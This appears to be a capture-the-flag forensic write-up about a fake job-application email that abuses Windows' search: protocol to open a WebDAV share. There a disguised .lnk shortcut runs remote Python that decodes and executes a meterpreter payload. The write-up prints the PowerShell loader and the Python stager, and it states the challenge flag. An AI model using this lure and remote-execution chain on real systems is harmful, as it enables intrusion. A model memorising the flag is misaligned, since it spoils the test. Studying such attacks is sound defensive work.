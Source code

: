 ![img](assets/banner.png)

<img src='assets/htb.png' style='zoom: 80%;' align=left /> <font size='10'>A New Hire</font>

20<sup>th</sup> February 2025

Prepared By: c4n0pus

Challenge Author(s): c4n0pus

Difficulty: <font color='green'>Very Easy</font>

<br><br>

# Synopsis

- A Very Easy forensic challenge that focuses on APT28's campaing in Ukraine, "CERT-UA#8399"

## Description

- The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

**Flag:** `HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`

## Skills Required

- N/A

## Skills Learned

- WebDav Malicious Usage
- Windows Search Interface
- Malicious lnks

# Enumeration

We are given an e-mail source-code (`.eml`) and we can see that it looks like a job application. We are directed to a webpage to view the resume:

```txt
You can review his resume here:
storage.microsoftcloudservices.com:[PORT]/index.php
```

After navigating to that webpage we are greeted by a loading prompt:

![](assets/loading.png)

Afterwards, a blurred background appears, and a button that prompts us to click to reveal the complete resume:

![](assets/click.png)

Before clicking, let's view what code it's being executed in our browser when we click it:

![](./assets/jssource.png)

When we click on the button, the `getResume()` function will be ran, and will change the current url to:

`search:displayname=Downloads&subquery=\\storage.microsoftcloudservices.com@PORT\3fe1690d955e8fd2a0b282501570e1f4\resumes\`

The `search:` prefix for the protocol will launch Microsoft's [Search Protocol](https://learn.microsoft.com/en-us/windows/win32/shell/search-protocol).

This will prompt the User to accept launching the targeted application, in our case "Search" and display (search for) everything, under the folder specified by the `subquery` key.

![](./assets/openapp.png)

In essence we are opening what appears to be a normal folder, but in reality we are manipulating the user to browse to our malicious WebDav share!

![](./assets/security.png)

Note that we are tricking the user with `Search Results`, rather than a normal remote folder.
![](./assets/search.png)

Inside the share we find a shortcut named `Resume.pdf` where in reality, the proper name is `Resume.pdf.lnk`. And if we click on it, a PDF opens that displays what seems to be a Resume.

![](./assets/legit.png)

This is just to appear legitimate... so let's examine the shortcut under a Hex Editor!
We see that the shortuct executes a lengthy encoded powershell command:
![](./assets/ps.png)

We can copy it and decode it in an online tool like CyberChef:

```powershell
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:12345/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf')
\\storage.microsoftcloudservices.com@12345\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@12345\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```

After cleaning it up a bit, we can see that in-turn, it executes two more programs:

- Opens the resume using Edge
- Executes a Python script `client.py` using a Python version residing in the remote WebDav share!

So even if the victim does not have Python installed, this can still run because Python and all the dependencies are loaded from the remote!

# Solution

We can browse to the location `client.py` is hosted to download it:

```python
import base64
key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
data = base64.b64decode("c97FeXRj6jeG[REDACTED]")
meterpreter_data = bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])
exec(__import__('zlib').decompress(meterpreter_data)[0])
```

We find a key variable that XOR-Decodes some data that's later decompressed and then executed!

Decoding the key variable will give us the flag!
